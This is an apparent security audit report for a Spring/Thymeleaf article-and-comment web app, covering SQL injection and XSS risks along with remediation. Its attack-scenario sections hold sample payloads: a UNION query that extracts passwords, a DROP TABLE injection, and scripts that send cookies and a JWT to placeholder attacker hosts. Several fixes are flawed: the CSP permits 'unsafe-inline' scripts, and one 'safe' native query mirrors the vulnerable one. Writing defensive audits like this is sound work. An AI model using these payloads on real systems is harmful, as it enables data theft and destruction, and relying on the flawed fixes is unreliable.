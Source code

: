 # Security Vulnerabilities Analysis Report
## SQL Injection and XSS Vulnerabilities

### SQL Injection Analysis

#### Current Implementation Overview
The application uses Spring Data JPA with repository interfaces:
- BaiVietRepository
- BinhLuanRepository
- UserRepository

#### Potential Vulnerabilities

1. JPA Query Methods
```java
// BaiVietRepository.java
Optional<BaiViet> findBaiVietByIdBaiViet(Integer idBaiViet);
Optional<List<BaiViet>> findBaiVietsByDanhMuc_IdDanhMuc(Integer idDanhMuc);

// BinhLuanRepository.java
List<BinhLuan> findBinhLuansByBaiViet_IdBaiViet(int id);
```

While these methods use JPA's query generation which automatically escapes parameters, there could be vulnerabilities if:
1. Custom queries are added using @Query with native SQL
2. Direct EntityManager usage with raw SQL queries
3. Dynamic query construction in service layers

#### Attack Scenarios

1. Potential JPQL Injection
```java
// Hypothetical vulnerable custom query
@Query("SELECT b FROM BaiViet b WHERE b.tieuDe LIKE '%' || :searchTerm || '%'")
List<BaiViet> searchBaiViet(@Param("searchTerm") String searchTerm);

// Attack payload
searchTerm = "' UNION ALL SELECT null,null,null,password,null FROM users--"
```

2. Potential Native Query Injection
```java
// Hypothetical vulnerable native query
@Query(value = "SELECT * FROM bai_viet WHERE danh_muc = ?1", nativeQuery = true)
List<BaiViet> findByCategory(String category);

// Attack payload
category = "1; DROP TABLE users--"
```

### Cross-Site Scripting (XSS) Analysis

#### Current Implementation Overview
The application uses Thymeleaf templating engine with both `th:text` and `th:utext` directives.

#### Identified Vulnerabilities

1. Unescaped Content Output
```html
<!-- baibao.html -->
<p id="articleContent" th:utext="${baiViet.noiDung}"></p>
```
- Using `th:utext` renders HTML content without escaping
- Allows injection of arbitrary HTML and JavaScript code through article content

2. Dynamic Comment Rendering
```javascript
// baibao.html
commentDiv.innerHTML = `<strong>${comment.nguoiDung.tenNguoiDung}</strong>: ${comment.noiDung}`;
```
- Direct innerHTML assignment with user-provided content
- Vulnerable to XSS through comment content

#### Attack Scenarios

1. Article Content XSS
```html
// Malicious article content
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

2. Comment XSS
```javascript
// Malicious comment content
<img src="x" onerror="alert(document.cookie)">
```

3. Stored XSS through Profile Names
```javascript
// Malicious username
<script>fetch('https://evil.com/?' + localStorage.getItem('jwt'))</script>
```

### Prevention Recommendations

#### SQL Injection Prevention

1. JPA Best Practices
```java
// Use parameterized JPA queries
@Query("SELECT b FROM BaiViet b WHERE b.danhMuc = :category")
List<BaiViet> findByCategory(@Param("category") String category);

// Avoid native queries where possible
// If needed, use prepared statements
@Query(value = "SELECT * FROM bai_viet WHERE danh_muc = ?", 
       nativeQuery = true)
List<BaiViet> findByCategory(String category);
```

2. Input Validation
```java
// Implement input validation at service layer
public List<BaiViet> searchBaiViet(String searchTerm) {
    if (!isValidSearchTerm(searchTerm)) {
        throw new IllegalArgumentException("Invalid search term");
    }
    return repository.findByTieuDeLike(searchTerm);
}
```

#### XSS Prevention

1. Template Updates
```html
<!-- Always use th:text instead of th:utext unless HTML is absolutely necessary -->
<p id="articleContent" th:text="${baiViet.noiDung}"></p>

<!-- If HTML is needed, sanitize content before storage -->
<p id="articleContent" th:utext="${@sanitizer.sanitize(baiViet.noiDung)}"></p>
```

2. JavaScript Security
```javascript
// Use textContent instead of innerHTML
commentDiv.textContent = `${comment.nguoiDung.tenNguoiDung}: ${comment.noiDung}`;

// Or sanitize HTML content
commentDiv.innerHTML = DOMPurify.sanitize(
    `<strong>${comment.nguoiDung.tenNguoiDung}</strong>: ${comment.noiDung}`
);
```

3. HTTP Security Headers
```nginx
# Nginx configuration
add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline';";
add_header X-XSS-Protection "1; mode=block";
```

### Additional Security Measures

1. Content Security Policy (CSP)
```html
<!-- Add to HTML templates -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self' 'unsafe-inline';">
```

2. Input Sanitization
```java
@Component
public class HtmlSanitizer {
    private final PolicyFactory policy = Sanitizers.FORMATTING.and(Sanitizers.BLOCKS);
    
    public String sanitize(String html) {
        return policy.sanitize(html);
    }
}
```

3. Output Encoding
```javascript
// Use encoding libraries for user-generated content
const encodedContent = he.encode(userContent);
element.textContent = encodedContent;
```

### Monitoring and Detection

1. Implement Security Logging
```java
// Log suspicious SQL patterns
@Aspect
@Component
public class SqlSecurityAspect {
    @Before("execution(* org.example.doandemo3_2.repository.*.*(..))")
    public void logSqlOperation(JoinPoint jp) {
        // Log and analyze SQL operations
    }
}
```

2. Set Up Alerts
- Monitor for unusual query patterns
- Track failed SQL operations
- Alert on suspicious HTML content submissions

### Conclusion

The current implementation has several potential vulnerabilities to both SQL injection and XSS attacks. While the use of JPA provides some protection against SQL injection, there are still risks in certain areas. The XSS vulnerabilities are more immediate due to the use of unsafe HTML rendering and unescaped user content.

Implementation of the suggested security measures would significantly improve the application's resistance to these attacks. Regular security audits and penetration testing should be conducted to ensure the effectiveness of these measures.

Remember that security is an ongoing process, and these recommendations should be regularly reviewed and updated based on new threats and best practices.